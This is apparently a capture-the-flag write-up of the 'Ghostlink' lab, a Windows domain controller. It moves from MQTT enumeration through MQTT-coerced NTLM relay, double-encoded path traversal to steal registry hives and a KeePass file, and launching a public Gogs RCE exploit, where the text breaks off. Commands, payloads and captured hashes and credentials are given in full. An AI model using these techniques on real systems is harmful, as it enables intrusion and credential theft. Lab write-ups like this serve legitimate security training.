




# Ghostlink

## Table of contents

- [Port scan](#port-scan)
- [Retrieving vhosts from MQTT](#retrieving-vhosts-from-mqtt)
- [Retrieving usernames from Gogs](#retrieving-usernames-from-gogs)
- [Coercion with MQTT](#coercion-with-mqtt)
- [HTTP relay with ghostsurf](#http-relay-with-ghostsurf)
- [Local File Disclosure with double encoded paths](#local-file-disclosure-with-double-encoded-paths)
- [RecentDocs in NTUSER.DAT](#recentdocs-in-ntuser.dat)
- [KeePass password retrieval](#keepass-password-retrieval)
- [RCE in Gogs with CVE-2025-8110](#rce-in-gogs-with-cve-2025-8110)
- [Exposing Hyper-V subnet with Ligolo-ng](#exposing-hyper-v-subnet-with-ligolo-ng)
- [Coercing DC01 (Server 2025) for ESC11](#coercing-dc01-server-2025-for-esc11)

## Port scan

```console
❯ sudo nmap -v -p- --min-rate 2000 10.129.238.246

Nmap scan report for 10.129.238.246
Host is up (0.086s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1883/tcp  open  mqtt
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
49902/tcp open  unknown
49952/tcp open  unknown
62073/tcp open  unknown
```

```console
❯ sudo nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,1883,2179,3268,3269,5985,9389,49664,49668,49669,49679,49680,49902,49952,62073 -oN ghostlink.nmap 10.129.238.246

Nmap scan report for 10.129.238.246
Host is up (0.087s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ghost Protocol Zero
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-16 21:02:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
|_ssl-date: TLS randomness does not represent time
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/brokers/client_status/mqttui-15e4034f: {"status":"online", "username":"(null)", "ts":1778965423967,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-15e4034f","clean_start":1, "IPv4":"127.0.0.1"}
|     $SYS/brokers/client_status/mqttui-92496d5e: {"status":"offline", "username":"(null)","ts":1778965419761,"reason_code":"0","client_id":"mqttui-92496d5e","IPv4":"127.0.0.1"}
|_    $SYS/brokers/client_status/mqttui-b285102a: {"status":"offline", "username":"(null)","ts":1778965421883,"reason_code":"0","client_id":"mqttui-b285102a","IPv4":"127.0.0.1"}
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49902/tcp open  msrpc         Microsoft Windows RPC
49952/tcp open  msrpc         Microsoft Windows RPC
62073/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m59s
| smb2-time: 
|   date: 2026-05-16T21:03:41
|_  start_date: N/A
```

Based on the ports, it is a Domain Controller.  
I used ldapsearch to find the FQDN:

```console
❯ ldapsearch -x -H ldap://10.129.238.246 -s base -b "" -LLL | grep dnsHostName
dnsHostName: dc01.ghostlink.htb
```

`/etc/hosts` has to be updated with the FQDN:

```text
10.129.238.246 dc01.ghostlink.htb ghostlink.htb dc01
```

## Retrieving vhosts from MQTT

1883 is the standard port for MQTT.

```console
❯ nmap --script mqtt-subscribe -p 1883 10.129.238.246

Nmap scan report for dc01.ghostlink.htb (10.129.238.246)
Host is up (0.086s latency).

PORT     STATE SERVICE
1883/tcp open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/brokers/client_status/mqttui-ddebbabb: {"status":"offline", "username":"(null)","ts":1778966347742,"reason_code":"0","client_id":"mqttui-ddebbabb","IPv4":"127.0.0.1"}
|     $SYS/brokers/client_status/mqttui-66f08210: {"status":"offline", "username":"(null)","ts":1778966350719,"reason_code":"0","client_id":"mqttui-66f08210","IPv4":"127.0.0.1"}
|_    $SYS/brokers/client_status/mqttui-a28c6a49: {"status":"online", "username":"(null)", "ts":1778966354738,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-a28c6a49","clean_start":1, "IPv4":"127.0.0.1"}
```

Tools to interact with MQTT should be installed:

```console
❯ sudo apt install -y mosquitto mosquitto-clients
```

Try subscribing to all topics:

```console
❯ mosquitto_sub -h ghostlink.htb -t '#' -d
Client null sending CONNECT
Client null received CONNACK (0)
Client null sending SUBSCRIBE (Mid: 1, Topic: #, QoS: 0, Options: 0x00)
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/energy/grid/frequency', ... (117 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-3","telemetry":{"ip":"10.4.23.11","loadPercent":57,"hz":184082648.8}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/identity/trust-provider/state', ... (132 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-2","telemetry":{"ip":"10.2.45.56","tokenValidation":"intermittent","authErrors":22}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/network/node/healthcheck', ... (169 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-2","telemetry":{"healthy":false,"url":"https://energy-grid.ghostlink.htb/canary","lastCheckSecAgo":37,"ip":"10.2.45.56"}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/network/node/keepalive', ... (161 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-3","telemetry":{"rttMs":49,"status":"error","url":"https://transport.ghostlink.htb/keepalive","ip":"10.4.23.11"}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/space/satellite/timing-drift', ... (117 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-3","telemetry":{"driftNs":-2,"ip":"10.4.23.11","syncState":"resync"}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/telecom/core-routing/health', ... (133 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-1","telemetry":{"ip":"10.1.12.34","packetLoss":9840473445,"routeStability":"stable"}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/transport/logistics/status', ... (116 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-1","telemetry":{"throughput":86,"anomaly":"none","ip":"10.1.12.34"}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/systems/node/domain/healthcheck', ... (157 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-4","telemetry":{"healthy":true,"url":"dc01.ghostlink.htb/healthcheck","latencyMs":232,"ip":"10.129.238.246"}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/systems/node/repository/healthcheck', ... (194 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-5","telemetry":{"healthy":true,"url":"gpz-op26-toolkits.ghostlink.htb/healthcheck","lastCheckSecAgo":12,"responseCode":"200","ip":"172.16.20.20"}}
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/systems/node/secureshare/healthcheck', ... (192 bytes))
{"timestamp":"2026-16-05-13:57:36","node":"node-6","telemetry":{"healthy":true,"url":"gpz-op26-secure.ghostlink.htb/healthcheck","lastCheckSecAgo":30,"responseCode":"200","ip":"172.16.20.10"}}
Client null received SUBACK
Subscribed (mid: 1): 0
.....SNIP.....
```

We can find four vhosts. Update `/etc/hosts`:

```text
10.129.238.246 dc01.ghostlink.htb energy-grid.ghostlink.htb transport.ghostlink.htb gpz-op26-toolkits.ghostlink.htb gpz-op26-secure.ghostlink.htb ghostlink.htb dc01
```

<https://energy-grid.ghostlink.htb/canary> and <https://transport.ghostlink.htb/keepalive> failed to load and are likely invalid.  
<http://gpz-op26-secure.ghostlink.htb/> requires authentication.  
<http://gpz-op26-toolkits.ghostlink.htb/> is a Gogs instance.

`gpz-op26-secure` and `gpz-op26-toolkits` resolve to IPs within the 172.16.20.0/24 subnet, consistent with Hyper-V internal virtual switch range.

I tried adding a DNS record unauthenticated, but it failed:

```console
❯ nsupdate <<EOF
server dc01.ghostlink.htb
zone ghostlink.htb
update add inte.ghostlink.htb. 3600 A 10.10.14.145
send
quit
EOF

update failed: REFUSED
```

## Retrieving usernames from Gogs

On the Gogs instance (<http://gpz-op26-toolkits.ghostlink.htb/explore/repos>), a bunch of ICS-related repos are available:



However, these are all decoys. The true goal should have been to provide a list of users:



[kerbrute](https://github.com/ropnop/kerbrute) can be utilized to validate:

```console
❯ sudo ntpdate ghostlink.htb
❯ kerbrute userenum ~/usernames.txt --dc 10.129.238.246 -d ghostlink.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/16/26 - Ronnie Flathers @ropnop

2026/05/16 17:47:17 >  Using KDC(s):
2026/05/16 17:47:17 >   10.129.238.246:88

2026/05/16 17:47:17 >  [+] VALID USERNAME:   vroth@ghostlink.htb
2026/05/16 17:47:17 >  [+] VALID USERNAME:   nvirelli@ghostlink.htb
2026/05/16 17:47:17 >  [+] VALID USERNAME:   zkovacs@ghostlink.htb
2026/05/16 17:47:18 >  [+] VALID USERNAME:   ohexley@ghostlink.htb
2026/05/16 17:47:18 >  Done! Tested 5 usernames (4 valid) in 0.652 seconds
```

They were all valid users on the domain.  
None of those were AS-REProastable or used weak credentials.

## Coercion with MQTT

The healthcheck for secureshare on MQTT stands out to me.  
<http://gpz-op26-secure.ghostlink.htb/> requires authentication and yet, the response code is 200:

```console
❯ mosquitto_sub -h ghostlink.htb -t 'GhostProtocolZero/systems/node/secureshare/#' -v -d
Client null sending CONNECT
Client null received CONNACK (0)
Client null sending SUBSCRIBE (Mid: 1, Topic: GhostProtocolZero/systems/node/secureshare/#, QoS: 0, Options: 0x00)
Client null received PUBLISH (d0, q0, r1, m0, 'GhostProtocolZero/systems/node/secureshare/healthcheck', ... (192 bytes))
GhostProtocolZero/systems/node/secureshare/healthcheck {"timestamp":"2026-16-05-18:15:40","node":"node-6","telemetry":{"healthy":true,"url":"gpz-op26-secure.ghostlink.htb/healthcheck","lastCheckSecAgo":30,"responseCode":"200","ip":"172.16.20.10"}}
```

It implies that the healthcheck script is running with authentication. I tried pointing it to my tun0 IP address.  
Instead of subscribing, I published to the topic `GhostProtocolZero/systems/node/secureshare/healthcheck` and used the same payload with telemetry URL and IP modified:

```console
❯ mosquitto_pub -h ghostlink.htb -t 'GhostProtocolZero/systems/node/secureshare/healthcheck'  -m '{"timestamp":"2026-16-05-18:15:40","node":"node-6","telemetry":{"healthy":true,"url":"10.10.14.145","lastCheckSecAgo":30,"responseCode":"200","ip":"10.10.14.145"}}' -r -d
Client null sending CONNECT
Client null received CONNACK (0)
Client null sending PUBLISH (d0, q0, r1, m1, 'GhostProtocolZero/systems/node/secureshare/healthcheck', ... (163 bytes))
Client null sending DISCONNECT
```

A Net-NTLMv2 challenge came through in Responder:

```text
[HTTP] Sending NTLM authentication request to 10.129.238.246
[HTTP] GET request from: ::ffff:10.129.238.246  URL: / 
[HTTP] NTLMv2 Client   : 10.129.238.246
[HTTP] NTLMv2 Username : ghostlink\svc_canary
[HTTP] NTLMv2 Hash     : svc_canary::ghostlink:4af37ac9d46c50d9:87262020E25C43E40D979737B3860054:010100000000000087D7E14383E5DC016E4ED589A892DBEB000000000200080048004E004A00330001001E00570049004E002D00510053004800500047004400540057004500550030000400140048004E004A0033002E004C004F00430041004C0003003400570049004E002D00510053004800500047004400540057004500550030002E0048004E004A0033002E004C004F00430041004C000500140048004E004A0033002E004C004F00430041004C0008005000500000000000000000000000004000003B2DDB9A0D2ECF772EDA390EDA6B4706BB751036D5A86F1E49026850B000AFA29EA6E0B56B1FC312F086641EDEA22BE27F255F4E3441AFE2B8AB0BC43190031D0A001000000000000000000000000000000000000900220048005400540050002F00310030002E00310030002E00310034002E003100340035000000000000000000
```

It cannot be cracked with common wordlists. Instead, we can relay the authentication to <http://gpz-op26-secure.ghostlink.htb/>

## HTTP relay with ghostsurf

First, install proxychains:

```console
❯ sudo apt install proxychains4
```

Update the last line of `/etc/proxychains4.conf`:

```text
socks5  127.0.0.1 1080
```

`ntlmrelayx.py` is very janky for this use case as it was designed for tools that make sequential requests on a single connection. Browsers do not work this way. Instead, we can use [ghostsurf](https://github.com/senderend/ghostsurf).  
Blog: <https://specterops.io/blog/2026/04/02/ghostsurf-from-ntlm-relay-to-browser-session-hijacking/>  
`ghostsurf` had some issues as well, but I've fixed those in a fork: <https://github.com/int3x/ghostsurf>

```console
❯ git clone -b fix-multipart-body-parse --depth 1 git@github.com:int3x/ghostsurf.git
❯ cd ghostsurf
❯ ./ghostsurf -t http://gpz-op26-secure.ghostlink.htb/ --no-smb-server --no-wcf-server --no-raw-server -rkd

  ,--,   .-. .-. .---.    .---.  _______  .---. .-. .-.,---.    ,---.
.' .'    | | | |/ .-. )  ( .-._)|__   __|( .-._)| | | || .-.\   | .-'
|  |  __ | `-' || | |(_)(_) \     )| |  (_) \   | | | || `-'/   | `-.
\  \ ( _)| .-. || | | | _  \ \   (_) |  _  \ \  | | | ||   (    | .-'
 \  `-) )| | |)|\ `-' /( `-'  )    | | ( `-'  ) | `-')|| |\ \   | |
 )\____/ /(  (_) )---'  `----'     `-'  `----'  `---(_)|_| \)\  )\|
(__)    (__)    (_)  NTLM relay browser session hijacking  (__)(__)


[+] Impacket Library Installation Path: /home/inte/ghostsurf/venv/lib/python3.13/site-packages/impacket
[*] Target: http://gpz-op26-secure.ghostlink.htb/
[*] SOCKS proxy started. Listening on 127.0.0.1:1080
[*] HTTP Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] SOCKS proxy: 127.0.0.1:1080
[*] Keep-relaying mode ENABLED (will reload targets after success)
[*] Setting up HTTP Server on port 80

[*] Servers started, waiting for connections
Type help for list of commands
ghostsurf>  * Serving Flask app 'lib.relay.servers.socksserver'
 * Debug mode: off
[*] (HTTP): Client requested path: /
[*] (HTTP): Client requested path: /
[*] (HTTP): Connection from 10.129.238.246 controlled, attacking target http://gpz-op26-secure.ghostlink.htb
[*] (HTTP): Client requested path: /
[*] HTTP server returned error code 200, treating as a successful login
[*] (HTTP): Authenticating connection from GHOSTLINK/SVC_CANARY@10.129.238.246 against http://gpz-op26-secure.ghostlink.htb SUCCEED [1]
[*] SOCKS: Adding GHOSTLINK/SVC_CANARY@gpz-op26-secure.ghostlink.htb(80) to active SOCKS connection. Enjoy
```

Install the FoxyProxy extension in Firefox, and add a SOCKS5 proxy at 127.0.0.1:1080.  
After that, the authentication requirement when visiting <http://gpz-op26-secure.ghostlink.htb/> can be bypassed.


There's a PDF to download at `/operation-briefing.pdf`, but it is empty.  
We can also upload files. After upload, it shares the download link of encrypted file:

```text
http://gpz-op26-secure.ghostlink.htb/api/download/dwd7bjgcbtxm.enc
```

We can also use `curl` and other tools with `ghostsurf`:

```console
❯ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta name="description" content="Ghost Protocol Zero - Secure File Sharing" />
.....SNIP.....
```

## Local File Disclosure with double encoded paths

Next, I fuzzed `/api/download/` for file disclosure.  
I used the wordlist from <https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/traversal.txt> and trimmed it down for windows:

```console
❯ grep -v passwd ~/CTF/wordlists/traversal.txt > ~/CTF/wordlists/traversal_win.txt
❯ proxychains4 -q ffuf -c -w ~/CTF/wordlists/traversal_win.txt -u 'http://gpz-op26-secure.ghostlink.htb/api/download/FUZZ' -r -mc all -fc 400,403,404,500 -t 1 -v -x socks5://127.0.0.1:1080
```

Nothing came out of it. IIS Shortname Scanners were equally useless.  
The web ninjas on the team, however, discovered a path traversal with double encoding:

```console
❯ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fWindows%252fSystem32%252fdrivers%252fetc%252fhosts
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
.....SNIP.....
# localhost name resolution is handled within DNS itself.
#   127.0.0.1       localhost
#   ::1             localhost
```

Afterwards, I replaced the slashes in <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Windows-files.txt> with `%252f` for fuzzing, but nothing directly usable was discovered.

PowerShell history for `svc_canary` is junk:

```console
❯ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fUsers%252fsvc_canary%252fAppData%252fRoaming%252fMicrosoft%252fWindows%252fPowerShell%252fPSReadLine%252fConsoleHost_history.txt
cmd
exit
cmd
exit
```

My attempts to discover anything in `.bash_history`, `.python_history` and `.ssh/` were also futile.

## RecentDocs in NTUSER.DAT

Fortunately, `NTUSER.DAT` can be read:

```console
❯ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fUsers%252fsvc_canary%252fNTUSER.DAT --output NTUSER.DAT
```

I also built a tool for parsing NTUSER.DAT: <https://github.com/int3x/ntuser_parser>

```console
❯ wget https://raw.githubusercontent.com/int3x/ntuser_parser/refs/heads/main/ntuser_parser.py
❯ python3 -m pip install --break-system-packages python-registry
❯ python3 ntuser_parser.py --hive ~/NTUSER.DAT

========================================================================
  Hive  : /home/inte/NTUSER.DAT
  User  : svc_canary  @  (unknown)
========================================================================
  [userassist] — no entries found

  [recentdocs] — 1 entries
    extension                                         mru_position                    filename                      
    ------------------------------------------------  ------------------------------  ------------------------------
    .zip                                                                              db.zip                        
    -> ntuser_output/NTUSER__svc_canary_recentdocs.csv
  [typedurls] — no entries found
  [typedpaths] — no entries found
  [runmru] — no entries found
  [wordwheel] — no entries found
  [muicache] — no entries found
  [autorun] — no entries found
  [networkdrives] — no entries found
  [officemru] — no entries found

[+] Output written to: /home/inte/parser/ntuser_output/
```

The RecentDocs registry key was populated.  
It implies that a link to `db.zip` exists at `C:\Users\svc_canary\AppData\Roaming\Microsoft\Windows\Recent\db.zip.lnk`.  
Retrieve it:

```console
❯ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fUsers%252fsvc_canary%252fAppData%252fRoaming%252fMicrosoft%252fWindows%252fRecent%252fdb.zip.lnk --output db.zip.lnk
```

[LnkParse3](https://github.com/Matmaus/LnkParse3) can parse LNK files:

```console
❯ python3 -m pip install --break-system-packages LnkParse3
❯ lnkparse ~/db.zip.lnk
Windows Shortcut Information:
   Guid: 00021401-0000-0000-C000-000000000046
   Link flags: HasTargetIDList | HasLinkInfo | HasRelativePath | IsUnicode - (139)
   File flags: FILE_ATTRIBUTE_ARCHIVE - (32)
   Creation time: 2026-02-25 13:52:39.803854+00:00
   Accessed time: 2026-02-25 14:04:19.621459+00:00
   Modified time: 2026-02-25 14:04:19.621459+00:00
   File size: 0
   Icon index: 0
   Windowstyle: SW_SHOWNORMAL
   Hotkey: UNSET - UNSET {0x0000}

   SIZE: 792

.....SNIP.....

   LINK INFO:
      Link info flags: 1
      Local base path: C:\Users\svc_canary\Documents\Operations\Management\db.zip
      Common path suffix: ''
      Location info:
         Drive type: DRIVE_FIXED
         Drive serial number: '0x8e40fb89'
         Volume label: ''
      Location: Local

   DATA:
      Relative path: ..\..\..\..\..\Documents\Operations\Management\db.zip
.....SNIP.....
```

Now that the path to `db.zip` is disclosed, it can be retrieved:

```console
❯ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fUsers%252fsvc_canary%252fDocuments%252fOperations%252fManagement%252fdb.zip --output db.zip
```

## KeePass password retrieval

```console
❯ unzip db.zip
Archive:  db.zip
  inflating: db.kdbx
  inflating: .key.keyx
```

`kpcli` failed to work with keyfile; but `keepassxc` worked:

```console
❯ sudo apt install keepassxc
❯ keepassxc db.kdbx --keyfile .key.keyx
```

It contains the password for vroth:

```text
vroth:mOo03jpsqx8JQYMBwvFP
```



In the history for `ohexley`, another set of credentials can also be found:

```text
ipetrescu:7BDZ6GKyFpKm7bkulkDz
```



However, it is invalid.

## RCE in Gogs with CVE-2025-8110

`vroth:mOo03jpsqx8JQYMBwvFP` is invalid on the domain, but it is valid on Gogs.  
I don't think we can deduce the version of Gogs without an admin account, but among recent Gogs vulnerabilities, one stands out: [CVE-2025-8110](https://www.wiz.io/blog/wiz-research-gogs-cve-2025-8110-rce-exploit)

It can be abused for remote code execution:

```console
❯ git clone https://github.com/kayl22/cve-2025-8110-GOGS-RCE.git
❯ cd cve-2025-8110-GOGS-RCE
❯ python3 cve-2025-8110.py --url http://gpz-op26-toolkits.ghostlink.htb -lh 10.10.14.145 -lp 9001 -U vroth -P mOo03jpsqx8JQYMBwvFP

░░      ░░░░      ░░░░      ░░░░      ░░░░░░░░░       ░░░░      ░░░        ░
